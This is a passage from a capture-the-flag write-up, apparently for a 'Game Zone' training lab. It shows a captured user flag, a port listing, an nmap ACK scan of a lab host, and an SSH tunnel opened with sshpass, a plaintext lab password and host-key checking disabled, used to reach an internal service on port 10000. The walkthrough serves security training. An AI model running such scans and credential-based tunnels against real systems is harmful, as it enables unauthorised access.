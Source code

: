 ```bash
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```


## Exposing services with reverse SSH tunnels
---

```bash
agent47@gamezone:~$ ss -ltnp
State       Recv-Q Send-Q                                                           Local Address:Port                                                                          Peer Address:Port
LISTEN      0      128                                                                          *:10000                                                                                    *:*
LISTEN      0      128                                                                          *:22                                                                                       *:*
LISTEN      0      80                                                                   127.0.0.1:3306                                                                                     *:*
LISTEN      0      128                                                                         :::80                                                                                      :::*
LISTEN      0      128                                                                         :::22                                                                                      :::*
```

The port `10000` is not accessible from outside

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sudo nmap -sA 10.10.233.188 -p 10000 -vv -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-18 02:53 EDT
Initiating Parallel DNS resolution of 1 host. at 02:53
Completed Parallel DNS resolution of 1 host. at 02:53, 0.01s elapsed
Initiating ACK Scan at 02:53
Scanning 10.10.233.188 [1 port]
Completed ACK Scan at 02:53, 0.34s elapsed (1 total ports)
Nmap scan report for 10.10.233.188
Host is up, received user-set (0.28s latency).
Scanned at 2023-06-18 02:53:08 EDT for 0s

PORT      STATE      SERVICE          REASON
10000/tcp unfiltered snet-sensor-mgmt reset ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
           Raw packets sent: 1 (40B) | Rcvd: 1 (40B)
```

Forward `127.0.0.1:10000` from remote host to local `127.0.0.1:10000`

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sshpass -p videogamer124 ssh -o "StrictHostKeyChecking no" agent47@10.10.233.188 -L 10000:127.0.0.1:10000
```
